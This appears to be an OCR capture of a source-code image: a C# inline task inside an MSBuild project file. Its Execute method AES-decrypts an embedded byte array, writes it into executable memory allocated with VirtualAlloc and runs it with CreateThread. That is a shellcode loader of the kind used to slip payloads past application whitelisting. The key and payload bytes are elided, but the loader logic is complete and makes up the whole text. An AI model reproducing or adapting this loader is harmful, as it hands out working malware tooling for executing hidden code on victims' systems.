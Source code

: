 ```csharp
          [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
           static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
          [DllImport("kernel32.dll")]
           static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        public override bool Execute()
        {
            ManualResetEvent manualResetEvent = new ManualResetEvent(false);
            byte[] iv = new byte[16]  { 0x30, ... };
            byte[] key = new byte[32]  { 0xe6, ... };
            byte[] encrypted = new byte[512]  { 0x68, 0x9d, 0xc1, ...};

            Aes encryptor = Aes.Create();
            encryptor.Mode = CipherMode.CBC;
            encryptor.KeySize = 256;
            encryptor.BlockSize = 128;
            encryptor.Padding = PaddingMode.Zeros;
            encryptor.Key = key;
            encryptor.IV = iv;

            MemoryStream memoryStream = new MemoryStream();
            ICryptoTransform aesDecryptor = encryptor.CreateDecryptor();
            CryptoStream cryptoStream = new CryptoStream(memoryStream, aesDecryptor, CryptoStreamMode.Write);

            byte[] buf = null;
            try
            {
                cryptoStream.Write(encrypted, 0, encrypted.Length);
                cryptoStream.FlushFinalBlock();
                buf = memoryStream.ToArray();
            }
            finally
            {
                memoryStream.Close();
                cryptoStream.Close();
            }

            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            manualResetEvent.WaitOne();
            return true;
        }               
          
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
